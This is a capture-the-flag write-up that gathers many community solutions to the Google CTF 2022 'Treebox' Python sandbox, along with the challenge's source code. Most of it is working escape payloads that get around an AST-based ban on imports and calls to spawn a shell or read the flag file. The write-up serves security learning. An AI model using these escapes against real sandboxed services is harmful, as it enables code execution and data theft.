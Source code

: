 ## Treebox (Misc) - Google CTF 2022

Everybody's solutions were so interesting that I had to collate them all.

### Python Sandbox Constraints

- no imports
- no function calls

### Solutions

1. @Enyei

```python
@eval
@input
def lol():
  pass
...
print(open('./flag').read())
```

2. @free food

```python
class a:
  pass
a.__class_getitem__ = exec
a["os.system('bash')"]
```

3. @zeyu2001

- Close but not close enough

```python
os.environ['PYTHONINSPECT'] = 'a'
```

- if this environment variable is set, it turns the python into interactive mode, but does not work against remote (probably needs a proper tty shell)

4. @Trixter

```python
class A(BaseException):
    def __init__(self):
        self.__class__.__add__ = os.system

    def __str__(self):
        return self + "cat flag"

raise A
```

- `raise A` instantiates the

5. @splitline

```python
@eval
@'__import__("os").system("sh")'.format
class _:pass
```

6. @Blupper

```python
sys.stdout.flush=sys.breakpointhook
```

7. @fourleggedoctopus

```python
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
    pass
```

8. @aza

- very similar concept to payload number 2

```python
class T(BaseException):
    __getitem__=os.system

try:
    raise T
except T as e:
    e['cat flag']
```

9. @dogelition_main

- dunder methods and metaclasses

```python
class MyClass(type):
    __instancecheck__ = os.system

class MyClass2(metaclass=MyClass):
    pass

match "/bin/sh":
    case MyClass2():
        pass
```

10. @ContronThePanda

```python
def os_str(x): return 'os'

@__import__
@os_str
def os(): pass

def cmd_str(x): return 'cat flag'

@os.system
@cmd_str
def ret(): pass
```

- use of decorators which was well explained by @BitShift in the discord channel (I'm basically copying his response)
- decorators mean: please call the function I just named, passing the thing I decorated as the first arg

```python
@foo
def bar():
  pass
```

is equivalent to

```python
def tmp_bar():
  pass

bar = foo(bar)
```

11. @OfficialBenko

```python
class Exploit(BaseException):
    pass

Exploit.__eq__ = open
Exploit.__gt__ = print

try:
    raise Exploit
except Exploit as exploit:
    a = exploit == "flag"
    Exploit.__lt__ = a.read
    b = exploit < None
    exploit > b
```

12. @harrier

```python
global os
class M(type):
    self = "ls"
    pass
class A(metaclass=M):
    pass
M.__add__ = os.system
assert f"{A + 'sh'}" == True
```

13. [Author's Solution](https://github.com/google/google-ctf/blob/master/2022/sandbox-treebox/healthcheck/solution.py)

```python
class X():
  def __init__(self, a, b, c, d, e):
    self += "print(open('flag').read())"
  __iadd__ = eval
__builtins__.__import__ = X
{}[1337]
```

14. @Theos (not his)

```python
@exec
@input
class x:0
...
print(open('./flag').read())
```

15. @Quenouille

```python
license._Printer__filenames = ['flag']
sys.stderr.flush = license
x = 6/0
```

16. @温柔小 🐖

```python
os.environ.__class__.__contains__ = os.system
'cat flag' in os.environ
```

16. @crazyman

```python
tree.__class__.__getitem__ = eval
tree["__import__('os').system('cat flag')"]
```

- more concise version of payload number 2

### Appendix

Source code

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)

```

### Additional Notes

- Found some other cool resources of python sandboxes escape while researching

- [https://gynvael.coldwind.pl/n/python_sandbox_escape](https://gynvael.coldwind.pl/n/python_sandbox_escape)
- Escaping sandbox by writing to `/proc/self/mem`. [Writeup])(https://blog.mheistermann.de/2014/04/14/plaidctf-2014-nightmares-pwnables-375-writeup/)
